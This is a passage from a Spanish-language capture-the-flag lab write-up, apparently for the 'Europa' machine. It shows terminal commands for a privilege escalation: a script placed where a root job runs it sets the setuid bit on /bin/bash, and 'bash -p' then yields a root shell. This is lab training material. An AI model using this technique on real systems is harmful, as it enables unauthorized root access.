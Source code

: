 ```bash
www-data@europa:/dev/shm$ cd /var/www/cmd/
www-data@europa:/var/www/cmd$ touch logcleared.sh; chmod +x logcleared.sh
www-data@europa:/var/www/cmd$ nano logcleared.sh
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@europa:/var/www/cmd$ cat logcleared.sh 
#!/bin/bash

chmod u+s /bin/bash
www-data@europa:/var/www/cmd$
```

Si esperamos un poco y vemos que ya se tienen los permisos indicados en `/bin/bash`; por lo tanto

```bash
www-data@europa:/var/www/cmd$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
www-data@europa:/var/www/cmd$ bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
